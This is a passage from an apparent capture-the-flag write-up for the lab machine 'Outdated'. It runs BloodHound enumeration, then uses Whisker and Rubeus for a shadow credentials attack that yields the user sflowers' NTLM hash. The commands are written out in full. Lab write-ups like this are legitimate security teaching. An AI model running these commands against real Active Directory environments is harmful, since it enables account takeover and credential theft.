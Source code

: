 ```powershell
powershell -Ep Bypass ". .\Invoke-SharpHound4.ps1;Invoke-SharpHound4"
```

After the command has completed, we should have a ZIP archive in our working directory. Let's copy it to the SMB server's directory and load it into BloodHound.

```
copy .\*_BloodHound.zip X:\
```

Once we load the data into bloodhound, we can map a possible attack path with the `Reachable High Value Targets` query on the `btables` object.

![Bloodhound](bloodhound.png)

Notice how one of the groups our current user is a member of, the `ITSTAFF` group, has the `AddKeyCredentialLink` privilege over the `sflowers` user object. This could set us up for a _shadow credentials_ attack on this user.


## Shadow Credentials

To learn more about shadow credentials from a security perspective I would recommend reading [this article](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab).

### Whisker

A tool called [Whisker](https://github.com/eladshamir/Whisker) will help us abuse shadow credentials to compromise the **sflowers** object. Let's download [this](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Whisker.ps1) PowerShell wrapper for Whisker onto the target then execute the following commands.

```powershell
. .\Invoke-Whisker.ps1
Invoke-Whisker "add /target:sflowers /path:C:\Windows\Tasks\cert.bin /password:3d9563b2cc0c963e"
```

This should print a command meant for a tool called [Rubeus](https://github.com/GhostPack/Rubeus).

### Rubeus

Let's copy the Rubeus powershell wrapper to the target from [here](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1) then call the function with the arguments specified in the Whisker output.

```powershell
. .\Invoke-Rubeus.ps1
Invoke-Rubeus "asktgt /user:sflowers /certificate:C:\Windows\Tasks\cert.bin /password:3d9563b2cc0c963e /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show"
```
{:.nolineno}

With this command we are able to recover an NTLM hash that should allow us to authenticate as `sflowers`.
